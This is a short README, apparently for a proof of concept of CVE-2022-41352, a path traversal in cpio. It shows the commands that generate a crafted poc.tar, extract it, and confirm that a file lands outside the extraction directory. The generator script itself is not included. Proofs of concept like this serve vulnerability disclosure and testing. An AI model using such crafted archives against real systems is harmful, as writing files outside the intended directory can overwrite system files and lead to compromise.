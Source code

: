 # cve-2022-41352

# generate poc.tar
```
$ chmod +x cpio_pocgen.py
$ ./cpio_pocgen.py
```

# show the middle finger to cpio
```
$ cd /tmp
$ mkdir -p poc/a/b

copy poc.tar to /tmp/poc/a/b/

$ cd /tmp/poc/a/b/
$ cpio -i < poc.tar
$ ls -al ../
total 16
drwxrwxr-x 3 xabino xabino 4096 ott 10 14:56 .
drwxrwxr-x 3 xabino xabino 4096 ott 10 14:55 ..
drwxrwxr-x 2 xabino xabino 4096 ott 10 14:56 b
-rw-r--r-- 1 xabino xabino   35 ott 10 14:56 here.txt <-- resource outside of /tmp/poc/a/b/

$ cat ../here.txt
I should not be here
```
